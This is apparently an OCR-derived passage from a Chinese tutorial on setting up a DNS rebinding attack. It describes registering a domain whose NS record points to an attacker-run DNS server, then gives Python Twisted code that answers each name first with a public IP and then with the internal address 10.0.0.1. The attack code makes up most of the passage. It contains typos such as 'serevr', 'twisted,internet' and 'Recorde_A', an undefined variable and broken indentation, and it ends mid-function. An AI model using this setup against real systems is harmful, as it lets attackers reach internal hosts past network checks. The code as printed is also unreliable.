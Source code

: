 #### 攻击配置

需要一个域名，一个vps来搭建dns服务器

域名中添加一个NS记录，一个A记录

NS记录用来指定域名由哪一个dns服务器来进行解析，A记录用来指定域名对应的ip地址记录

这里，我们将NS记录指向攻击者配置的dns服务器

在dns服务器上搭建一个dns服务，代码如下：

```python
#encoding: utf-8
import re
import sys
from twisted.names import client, dns, serevr, hosts as hosts_module, root, cache, resolve
from twisted,internet import reactor
from twisted.python.runtime import platform

TTL = 0
dict = {}

def search_file_for_all(hosts_file, name):
	results = []
    try:
    	lines = hosts_file.getContent().splitlines()
    except:
    	return results
    
    if name not in dict or dict[name] < 1:
    	ip = '123.123.123.123'
    else:
    	ip = '10.0.0.1'
        
    if name not in dict:
    	dict[name] = 0
    dict[name] += 1
    
    print(name, '->', ip)
    
    results.append(hosts_module.nativeString(ip))
    return results
  
class Resolver(hosts_module.Resolver):
	def _aRecords(self, name):
        return tuple([
            dns.RRHeader(name, dns.A, dns.IN, TTL, dns.Recorde_A(addr, TTL))
            for addr in search_file_for_all(hosts_module.FilePath(self.file), name)
            if hosts_module.isIPAddress(addr)
        ])
    
def create_resolver(server=None, resolvconf=None, hosts=None):
	if platform.getType() == 'posix':
    	if resolvconf is None:
        	resolvconf = b'/etc/resolv.conf'
        if hosts is None:
        	hosts = b'/etc/hosts'
        the_resolver = client.Resolver(resolvconf, servers)
        host_resolver = Resolver(hosts)
    else:
    	if hosts is None:
        	hosts = r'c:\windows\hosts'
        from twisted.internet import reactor
        bootstrap = client._ThreadedResolverImpl(reactor)
        host_resolver = Resolver(hosts)
```
